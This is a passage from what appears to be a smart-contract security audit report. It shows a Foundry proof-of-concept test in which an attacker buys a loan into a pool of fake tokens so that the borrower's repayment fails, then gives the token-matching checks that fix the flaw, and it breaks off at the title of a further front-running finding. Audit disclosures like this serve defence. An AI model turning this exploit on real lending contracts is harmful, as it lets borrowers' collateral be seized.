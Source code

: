 ```js
        // attacker create new fake pool and buy the loan
        vm.startPrank(lender2);
        loanToken2.approve(address(lender), 10000 * 10 ** 18);

        Pool memory p2 = Pool({
            lender: lender2,
            loanToken: address(loanToken2),
            collateralToken: address(collateralToken2),
            minLoanSize: 100 * 10 ** 18,
            poolBalance: 1000 * 10 ** 18,
            maxLoanRatio: 2 * 10 ** 18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });
        vm.startPrank(lender2);
        vm.warp(block.timestamp + 10 hours);
        lender.zapBuyLoan(p2, 0);
        vm.stopPrank();

        // repay the loan
        vm.startPrank(borrower);
        loanToken.approve(address(lender), 102 * 10 ** 18);
        
        lender.repay(loanIds); //DOS

        vm.stopPrank();
    }
```
## Impact

If a new lender creates a pool with fake tokens and purchases an original loan using those tokens, it can cause a Denial of Service (DOS) attack, which can result in the borrower losing all of their collateral.

## Tools Used
manual review
## Recommendations
To mitigate this issue we can add two missing checks in the buyLoan function

```js
    // validate the new pool
            if (pool.loanToken != loan.loanToken) revert TokenMismatch();
            if (pool.collateralToken != loan.collateralToken) {
                revert TokenMismatch();
            }
```
## <a id='H-03'></a>H-03. Reward Token(WETH) deposit transaction can be front-run with a deposit of a large quantity of staking token(TKN) making the frontrunner eligible for a large share of claimable reward.            
